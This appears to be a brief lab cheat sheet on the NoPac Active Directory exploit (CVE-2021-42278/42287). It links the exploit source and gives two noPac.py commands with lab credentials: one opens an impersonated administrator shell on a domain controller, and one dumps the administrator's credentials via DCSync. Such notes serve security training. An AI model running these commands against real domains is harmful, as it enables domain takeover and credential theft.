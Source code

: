 CVEs [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287)

NoPac Exploit Source(Relies on impacket)
https://github.com/Ridter/noPac

NoPac Exploit Command
```shell-session
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```

DCSync Attack Via NoPac
```shell-session
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```




